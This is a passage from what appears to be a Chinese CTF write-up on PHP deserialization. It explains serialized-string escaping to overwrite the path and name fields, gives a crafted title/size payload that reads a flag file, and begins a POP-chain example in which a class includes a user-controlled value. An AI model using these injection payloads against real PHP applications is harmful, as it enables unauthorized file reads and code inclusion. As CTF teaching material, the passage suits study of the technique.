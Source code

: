 通过上面可以发现只要我们构造的得当，便可以覆盖掉path和name部分。

先通过修改正常的序列化来举个例子
```
原序列（正常）
a:4:{s:5:"title";s:3:"123";s:4:"path";s:2:"./";s:4:"name";s:8:"info.png";s:4:"size";s:3:"456";}

改动后（把最开始的a:4改成a:3（代表的成员个数），将title后面的 s:3改成s:23）
a:3:{s:5:"title";s:23:"123";s:4:"path";s:2:"./";s:4:"name";s:8:"info.png";s:4:"size";s:3:"456";}
```
![lzqGY8.png](https://s2.ax1x.com/2020/01/17/lzqGY8.png)

成功把path覆盖掉，同理可以同时覆盖掉name（前提是把最开始的a:4改成a:2），如下
![lzqgl4.png](https://s2.ax1x.com/2020/01/17/lzqgl4.png)

在题目中我们只需要将title内容用flag、php、fl1g 来拼凑上面的23位、46位即可（前提是把最开始的a:4改成a:3或2 因为成员个数发生改变）如下

![lzOOot.png](https://s2.ax1x.com/2020/01/17/lzOOot.png)

可以正常序列化，既然覆盖掉了name和path 那么就要在构造出来，并且保持成员数为4 ，因为 a:4是不变的
通过观察可发现我们能够控制的参数为开头和结尾，我们如果把中间部分覆盖掉，那么我们就可以通过后面再重新构造出来。

还有一点就是，在一个正常的序列后面添加东西是不影响正常反序列化的，会被直接无视掉
![lzjYEn.png](https://s2.ax1x.com/2020/01/17/lzjYEn.png)

要想通过size来重构任意变量的话那么就需要覆盖到s:4:"size";s:n:（具体再体会）


最终构造如下
```
$file["title"] = "flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag";
$file["size"] = ';s:4:"path";s:1:"/";s:4:"name";s:12:"ffff111aaagg";s:4:"size";s:3:"123";};';
```

![lzjX28.png](https://s2.ax1x.com/2020/01/17/lzjX28.png)

最终得flag
![lzvCan.png](https://s2.ax1x.com/2020/01/17/lzvCan.png)

### ④ POP链构造

通俗来说就是反序列化利用链，为什么是个链呢，因为它涉及多个类，最终连成一个利用链。一般出现在大的框架里，最经典的还是thinkphp序列化漏洞。

贴一个简单的小例子
```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
```